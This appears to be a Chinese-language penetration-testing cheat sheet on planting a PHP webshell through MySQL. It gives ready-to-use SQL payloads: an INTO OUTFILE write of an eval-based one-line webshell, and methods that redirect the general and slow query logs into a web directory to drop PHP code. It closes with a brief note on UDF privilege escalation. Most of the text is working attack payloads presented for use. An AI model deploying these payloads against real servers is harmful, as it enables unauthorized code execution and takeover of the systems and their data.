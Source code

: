 ##### 写webshell

(1) 直接写

查看可写目录范围，默认为空即不可写不可读

```sql
select @@secure_file_priv
```

payload

```sql
select '<?php @eval($_POST[shell]); ?>' into outfile '/etc/www/html/shell.php'
当然，字符串可以为16进制内容
```

(2) 日志写webshell

```
MySQL日志文件系统的组成:
错误日志log_error：记录启动、运行或停止mysqld时出现的问题。
通用日志general_log：记录建立的客户端连接和执行的语句。
更新日志：记录更改数据的语句。该日志在MySQL 5.1中已不再使用。
二进制日志：记录所有更改数据的语句。还用于复制。
慢查询日志slow_query_log：记录所有执行时间超过long_query_time秒(默认10秒)的所有查询或不使用索引的查询。
Innodb日志：innodb redolog
```

以下举例两种

```sql
show global variables like "%general%";                 #查看general文件配置情况
set global general_log='on';                            #开启日志记录
set global general_log_file='C:/phpstudy/WWW/shell.php';
select '<?php @eval($_POST[shell]); ?>';                #日志文件导出指定目录
set global general_log=off;                             #关闭记录
```

```sql
show variables like '%slow%';                           #慢查询日志

set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;

/*set GLOBAL log_queries_not_using_indexes=on;
show variables like '%log%';*/

select '<?php phpinfo();?>' from mysql.user where sleep(10);
```

##### UDF 提权

大致流程如下，将udf文件windows为dll文件 ,linux为so文件导入服务器mysql插件目录即可。

可以自己写一些udf文件来编译。

推荐sqlmap提供的udf文件

